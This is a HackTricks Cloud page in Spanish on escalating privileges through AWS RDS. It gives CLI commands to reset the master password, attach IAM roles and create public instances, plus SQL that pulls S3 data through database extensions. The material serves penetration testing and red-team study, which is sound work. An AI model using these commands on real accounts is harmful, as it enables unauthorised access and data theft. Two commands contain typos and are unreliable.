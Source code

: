 # AWS - RDS Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## RDS - Servicio de Base de Datos Relacional

Para más información sobre RDS consulta:

{% content-ref url="../aws-services/aws-relational-database-rds-enum.md" %}
[aws-relational-database-rds-enum.md](../aws-services/aws-relational-database-rds-enum.md)
{% endcontent-ref %}

### `rds:ModifyDBInstance`

Con ese permiso, un atacante puede **modificar la contraseña del usuario maestro**, y el inicio de sesión dentro de la base de datos:
```bash
# Get the DB username, db name and address
aws rds describe-db-instances

# Modify the password and wait a couple of minutes
aws rds modify-db-instance \
--db-instance-identifier <db-id> \
--master-user-password 'Llaody2f6.123' \
--apply-immediately

# In case of postgres
psql postgresql://<username>:<pass>@<rds-dns>:5432/<db-name>
```
{% hint style="warning" %}
Necesitarás poder **contactar a la base de datos** (generalmente solo son accesibles desde redes internas).
{% endhint %}

**Impacto Potencial:** Encontrar información sensible dentro de las bases de datos.

### rds-db:connect

Según la [**documentación**](https://docs.aws.amazon.com/AmazonRDS/latest/UserGuide/UsingWithRDS.IAMDBAuth.IAMPolicy.html), un usuario con este permiso podría conectarse a la instancia de DB.

### Abuso de permisos de rol IAM de RDS

#### Postgresql (Aurora)

{% hint style="success" %}
Si al ejecutar **`SELECT datname FROM pg_database;`** encuentras una base de datos llamada **`rdsadmin`**, sabes que estás dentro de una **base de datos postgresql de AWS**.
{% endhint %}

Primero puedes verificar si esta base de datos ha sido utilizada para acceder a algún otro servicio de AWS. Podrías comprobar esto mirando las extensiones instaladas:
```sql
SELECT * FROM pg_extension;
```
Si encuentras algo como **`aws_s3`** puedes asumir que esta base de datos tiene **algún tipo de acceso sobre S3** (hay otras extensiones como **`aws_ml`** y **`aws_lambda`**).

Además, si tienes permisos para ejecutar **`aws rds describe-db-clusters`** puedes ver allí si el **clúster tiene algún rol de IAM adjunto** en el campo **`AssociatedRoles`**. Si hay alguno, puedes asumir que la base de datos fue **preparada para acceder a otros servicios de AWS**. Basado en el **nombre del rol** (o si puedes obtener los **permisos** del rol) podrías **adivinar** qué acceso adicional tiene la base de datos.

Ahora, para **leer un archivo dentro de un bucket** necesitas conocer la ruta completa. Puedes leerlo con:
```sql
// Create table
CREATE TABLE ttemp (col TEXT);

// Create s3 uri
SELECT aws_commons.create_s3_uri(
'test1234567890678', // Name of the bucket
'data.csv',          // Name of the file
'eu-west-1'          //region of the bucket
) AS s3_uri \gset

// Load file contents in table
SELECT aws_s3.table_import_from_s3('ttemp', '', '(format text)',:'s3_uri');

// Get info
SELECT * from ttemp;

// Delete table
DROP TABLE ttemp;
```
Si tuvieras **credenciales de AWS en bruto**, también podrías usarlas para acceder a los datos de S3 con:
```sql
SELECT aws_s3.table_import_from_s3(
't', '', '(format csv)',
:'s3_uri',
aws_commons.create_aws_credentials('sample_access_key', 'sample_secret_key', '')
);
```
{% hint style="info" %}
Postgresql **no necesita cambiar ninguna variable del grupo de parámetros** para poder acceder a S3.
{% endhint %}

#### Mysql (Aurora)

{% hint style="success" %}
Dentro de un mysql, si ejecutas la consulta **`SELECT User, Host FROM mysql.user;`** y hay un usuario llamado **`rdsadmin`**, puedes asumir que estás dentro de una **base de datos mysql de AWS RDS**.
{% endhint %}

Dentro del mysql ejecuta **`show variables;`** y si las variables como **`aws_default_s3_role`**, **`aurora_load_from_s3_role`**, **`aurora_select_into_s3_role`**, tienen valores, puedes asumir que la base de datos está preparada para acceder a datos de S3.

Además, si tienes permisos para ejecutar **`aws rds describe-db-clusters`** puedes verificar si el clúster tiene algún **rol asociado**, lo que generalmente significa acceso a servicios de AWS).

Ahora, para **leer un archivo dentro de un bucket** necesitas conocer la ruta completa. Puedes leerlo con:
```sql
CREATE TABLE ttemp (col TEXT);
LOAD DATA FROM S3 's3://mybucket/data.txt' INTO TABLE ttemp(col);
SELECT * FROM ttemp;
DROP TABLE ttemp;
```
### `rds:AddRoleToDBCluster`, `iam:PassRole`

Un atacante con los permisos `rds:AddRoleToDBCluster` y `iam:PassRole` puede **agregar un rol especificado a una instancia RDS existente**. Esto podría permitir al atacante **acceder a datos sensibles** o modificar los datos dentro de la instancia.
```bash
aws add-role-to-db-cluster --db-cluster-identifier <value> --role-arn <value>
```
**Impacto Potencial**: Acceso a datos sensibles o modificaciones no autorizadas a los datos en la instancia RDS.\
Tenga en cuenta que algunas bases de datos requieren configuraciones adicionales, como Mysql, que necesita especificar el ARN del rol en los grupos de parámetros también.

### `rds:CreateDBInstance`

Solo con este permiso, un atacante podría crear una **nueva instancia dentro de un clúster** que ya existe y tiene un **rol IAM** adjunto. No podrá cambiar la contraseña del usuario maestro, pero podría exponer la nueva instancia de base de datos a Internet:
```bash
aws --region eu-west-1 --profile none-priv rds create-db-instance \
--db-instance-identifier mydbinstance2 \
--db-instance-class db.t3.medium \
--engine aurora-postgresql \
--db-cluster-identifier database-1 \
--db-security-groups "string" \
--publicly-accessible
```
### `rds:CreateDBInstance`, `iam:PassRole`

{% hint style="info" %}
TODO: Probar
{% endhint %}

Un atacante con los permisos `rds:CreateDBInstance` y `iam:PassRole` puede **crear una nueva instancia de RDS con un rol especificado adjunto**. El atacante puede entonces potencialmente **acceder a datos sensibles** o modificar los datos dentro de la instancia.

{% hint style="warning" %}
Algunos requisitos del rol/perfil de instancia para adjuntar (de [**aquí**](https://docs.aws.amazon.com/cli/latest/reference/rds/create-db-instance.html)):

* El perfil debe existir en tu cuenta.
* El perfil debe tener un rol IAM que Amazon EC2 tenga permisos para asumir.
* El nombre del perfil de instancia y el nombre del rol IAM asociado deben comenzar con el prefijo `AWSRDSCustom`.
{% endhint %}

{% code overflow="wrap" %}
```bash
aws rds create-db-instance --db-instance-identifier malicious-instance --db-instance-class db.t2.micro --engine mysql --allocated-storage 20 --master-username admin --master-user-password mypassword --db-name mydatabase --vapc-security-group-ids sg-12345678 --db-subnet-group-name mydbsubnetgroup --enable-iam-database-authentication --custom-iam-instance-profile arn:aws:iam::123456789012:role/MyRDSEnabledRole
```
{% endcode %}

**Impacto Potencial**: Acceso a datos sensibles o modificaciones no autorizadas a los datos en la instancia RDS.

### `rds:AddRoleToDBInstance`, `iam:PassRole`

Un atacante con los permisos `rds:AddRoleToDBInstance` y `iam:PassRole` puede **agregar un rol especificado a una instancia RDS existente**. Esto podría permitir al atacante **acceder a datos sensibles** o modificar los datos dentro de la instancia.

{% hint style="warning" %}
La instancia de DB debe estar fuera de un clúster para esto
{% endhint %}

{% code overflow="wrap" %}
```bash
aws rds add-role-to-db-instance --db-instance-identifier target-instance --role-arn arn:aws:iam::123456789012:role/MyRDSEnabledRole --feature-name <feat-name>
```
{% endcode %}

**Impacto Potencial**: Acceso a datos sensibles o modificaciones no autorizadas a los datos en la instancia RDS.

{% hint style="success" %}
Aprende y practica Hacking en AWS:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Aprende y practica Hacking en GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Apoya a HackTricks</summary>

* Revisa los [**planes de suscripción**](https://github.com/sponsors/carlospolop)!
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Comparte trucos de hacking enviando PRs a los** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositorios de github.

</details>
{% endhint %}
